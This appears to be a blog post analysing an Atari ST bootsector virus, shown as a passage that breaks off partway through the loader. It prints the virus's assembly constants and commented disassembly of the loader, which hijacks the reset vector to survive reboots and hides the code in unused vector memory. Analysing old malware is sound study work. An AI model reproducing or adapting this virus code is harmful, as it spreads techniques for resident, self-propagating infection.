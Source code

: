 Let's start with some constants, they will be useful later on.

```asm
PHYSTOP                 equ $42E
RESVEC_ENA              equ $426
RESVEC                  equ $42A
RESVEC_MAGIC            equ $31415926
RESIDENT_MAGIC          equ $12123456
RESIDENT_CHK            equ $5678
HDV_BPB                 equ $472
BOOT_CHK                equ $1234
PAGE_SIZE               equ 512

; xbios
XBIOS                   equ 14
KBDVBASE                equ $22
FLOPRD                  equ 8
FLOPWR                  equ 9
MOUSEVEC_OFFSET         equ 16

; variables
COUNTER_DEFAULT         equ $FFFFFFFB

; RAM locations
BOOTSECT_BUF            equ $4C6
RAM_ADDR                equ $140
RESET_VECTOR_ADDR       equ $194
HDV_HPB_JMP_ADDR        equ RESET_VECTOR_ADDR + (HDV_HPB_ORIGINAL_VECTOR - RESET_VECTOR) + 2
COUNTER_ADDR            equ RESET_VECTOR_ADDR + (COUNTER - RESET_VECTOR)
INITMOUS_PARAMS_ADDR    equ RESET_VECTOR_ADDR + (INITMOUS_PARAMS - RESET_VECTOR)
RESET_VECTOR_PAGE       equ PAGE_SIZE*64
RESET_VECTOR_SUBPAGE    equ PAGE_SIZE*1
```

What to note at this point, the virus is using some XBIOS functions, the reset vector and the HDV_HPB vector. But we'll dig into that later.

#### The Loader

Then, the bootsector code starts with what I call the `Loader` part, dedicated to set the official reset vector to be "reset-proof" then copy itself in the ST memory at a "stealh" location, into the unused user vector space (ST only) from $140 to $380, so 576 bytes available, more than the bootsector itself. Please refer to this post to check the [ST memory map](http://127.0.0.1:8000/the-atari-stttfalcon-memory-map-en.html)


Let's see the details:

```asm
LOADER:
            MOVE.L    #$D6,D3 				            ; D3 = 214
            LEA       RAM_ADDR.W,A1 		            ; A1 @ 320 (0x140) => 1st USER DEFINED VECTOR
            LEA       LOADER(PC),A2			            ; A2 @ LOADER
            MOVE.L    (A2),D2 				            ; STOP IF L001 IS IN 0x140 
            CMP.L     (A1),D2 
            BEQ       LOADER_END 
            MOVE.L    #RESVEC_MAGIC,D0 		            ; ELSE D0 = 0x31415926
            CLR.L     D1					            ; D1 - 0
            CMP.L     RESVEC_ENA.W,D0 			        ; IF @ 0x426 != 0x31415926 => If this location contains the magic number $31415926 
                                                        ; then the system will jump through resvector (42A) on a system reset
            BNE       PASS_RESVEC 			            ; GOTO PASS_RESVEC
            MOVE.L    RESVEC.W,D1 				        ; ELSE D1 = 0x42A
PASS_RESVEC:
```